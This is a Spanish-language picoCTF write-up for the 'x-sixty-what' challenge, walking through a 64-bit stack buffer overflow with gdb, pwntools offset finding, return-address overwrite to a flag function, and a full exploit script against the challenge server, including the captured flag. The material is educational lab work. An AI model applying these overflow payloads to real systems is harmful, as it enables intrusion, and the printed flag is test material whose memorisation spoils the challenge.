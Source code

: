 # x-sixty-what
Reminder: local exploits may not always work the same way remotely due to differences between machines.

Overflow x64 code Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the `flag` function in this [program](https://artifacts.picoctf.net/c/194/vuln). [Download source](https://artifacts.picoctf.net/c/194/vuln.c). `nc saturn.picoctf.net 58755`

## Solucion

### Inicial
- examinamos el tipo de archivo
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/xsixty]
└─$ file vuln 
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3267ee5914133fcf5ee026a4aa2b201324f02089, for GNU/Linux 3.2.0, not stripped
```
 
- lo leemos con readelf y analizamos un poco su estructura (google: 101 elf files)
 https://linux-audit.com/elf-binaries-on-linux-understanding-and-analysis/
- Encabezado
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/xsixty]
└─$ readelf vuln -h
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x401150
  Start of program headers:          64 (bytes into file)
  Start of section headers:          15144 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         13
  Size of section headers:           64 (bytes)
  Number of section headers:         31
  Section header string table index: 30
                                        
```




- generamos un patron para calcular el offest necesario para sobre escribir la direccion de retorno

```pyhton
>>> from pwn import *
>>> cyclic(300)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac'
```

- En x64 la direccion de retorno no puede ser sobre escrita dado que el tema de canonical address, asi que EIP nunca sera sobre escrito, pero si podemos calcular el offset con el contenido de $rsp

```bash
┌──(kali㉿kali)-[~/picoctf/pwning/xsixty]
└─$ gdb -q vuln 
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) r <<< $(echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac')
Starting program: /home/kali/picoctf/pwning/xsixty/vuln <<< $(echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac')
Welcome to 64-bit. Give me a string that gets you the flag: 

Program received signal SIGSEGV, Segmentation fault.
0x00000000004012d1 in vuln ()
(gdb) info registers 
rax            0x7fffffffdde0      140737488346592
rbx            0x401340            4199232
rcx            0x7ffff7f9a9a0      140737353722272
rdx            0x0                 0
rsi            0x4052a1            4215457
rdi            0x7ffff7f9d680      140737353733760
rbp            0x6161617261616171  0x6161617261616171
rsp            0x7fffffffde28      0x7fffffffde28
r8             0x7fffffffdde0      140737488346592
r9             0x7fffffffdde0      140737488346592
r10            0x63                99
r11            0x7fffffffdeec      140737488346860
r12            0x401150            4198736
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x4012d1            0x4012d1 <vuln+31>
eflags         0x10206             [ PF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) x $rsp
0x7fffffffde28:	0x61616173
(gdb) 
```

- con el contendo de $rsp calculamos el offset 

```

>>> cyclic_find(0x61616173)
72
>>> 'A'*72
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' 
```

- requerimos la direccion de la funcion flag para saltar ahi

```bash
(gdb) info address flag
Symbol "flag" is at 0x401236 in a file compiled without debugging.
```

- la convertimos al reves con p64
```
>>> p64(0x401236)
b'6\x12@\x00\x00\x00\x00\x00'
```

- compleatamos el payload completo offset + flag addr, y local lo rompe
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/xsixty]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@\x00\x00\x00\x00\x00' | ./vuln                     
Welcome to 64-bit. Give me a string that gets you the flag: 
flag{dummie}
zsh: done                echo  | 
zsh: segmentation fault  ./vuln

```

- probamos remoto y por alguna razon (ya lo decian las pistas) no explota, se debe a las diferentes implementaciones entre SOs
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/xsixty]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@\x00\x00\x00\x00\x00' | nc saturn.picoctf.net 61500
Welcome to 64-bit. Give me a string that gets you the flag: 
```

- podemos buscar otra direccion dentro de flag (la pista lo sugiete)

```bash(gdb) disassemble flag
Dump of assembler code for function flag:
   0x0000000000401236 <+0>:	endbr64 
   0x000000000040123a <+4>:	push   rbp
     0x000000000040123b <+5>:	mov    rbp,rsp
   0x000000000040123e <+8>:	sub    rsp,0x50
   0x0000000000401242 <+12>:	lea    rsi,[rip+0xdbf]        # 0x402008
   0x0000000000401249 <+19>:	lea    rdi,[rip+0xdba]        # 0x40200a
   0x0000000000401250 <+26>:	call   0x401130 <fopen@plt>
   0x0000000000401255 <+31>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401259 <+35>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x000000000040125e <+40>:	jne    0x401289 <flag+83>
   0x0000000000401260 <+42>:	lea    rdx,[rip+0xdac]        # 0x402013
   0x0000000000401267 <+49>:	lea    rsi,[rip+0xdba]        # 0x402028
   0x000000000040126e <+56>:	lea    rdi,[rip+0xde8]        # 0x40205d
   0x0000000000401275 <+63>:	mov    eax,0x0
   0x000000000040127a <+68>:	call   0x4010e0 <printf@plt>
   0x000000000040127f <+73>:	mov    edi,0x0
   0x0000000000401284 <+78>:	call   0x401140 <exit@plt>
   0x0000000000401289 <+83>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000040128d <+87>:	lea    rax,[rbp-0x50]
   0x0000000000401291 <+91>:	mov    esi,0x40
   0x0000000000401296 <+96>:	mov    rdi,rax
   0x0000000000401299 <+99>:	call   0x4010f0 <fgets@plt>
   0x000000000040129e <+104>:	lea    rax,[rbp-0x50]
   0x00000000004012a2 <+108>:	mov    rdi,rax
   0x00000000004012a5 <+111>:	mov    eax,0x0
   0x00000000004012aa <+116>:	call   0x4010e0 <printf@plt>
   0x00000000004012af <+121>:	nop
   0x00000000004012b0 <+122>:	leave  
   0x00000000004012b1 <+123>:	ret    
End of assembler dump.
(gdb) 
```

- se trata de buscar otra direccion dentro de las misma funcion despues del push (lo dice la pista), la segunda

```bash
>>> p64(0x000000000040123b)
b';\x12@\x00\x00\x00\x00\x00'

```

- y lanzarla al local y remoto para probar que funcione, convertido automatico o manual
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/xsixty]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;\x12@\x00\x00\x00\x00\x00' | nc saturn.picoctf.net 62653 
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{b1663r_15_b3773r_964d9987}                                                                                                                        
┌──(kali㉿kali)-[~/picoctf/pwning/xsixty]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x3b\x12\x40\x00\x00\x00\x00\x00' | nc saturn.picoctf.net 62653
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{b1663r_15_b3773r_964d9987} 
```

- Exploit
```python
from pwn import *

#p   = process('./vuln')
p = connect('saturn.picoctf.net',55774)
elf = ELF('./vuln', checksec=False)

# offeset antes de alcanzar la direccion de retorno
offset = 72
overflow = b'A' * offset 

# construir el payload con la direccion de flag y 5 adelante
payload = overflow + p64(elf.symbols['flag']+5)
log.info(str(payload))
line = p.recv()
log.info(str(line))
p.sendline(payload)

flag = p.recvall()

log.info(str(flag))

```



Referencias
- https://shakuganz.com/2022/03/30/picoctf-2022-write-up-binary-exploitation/
- 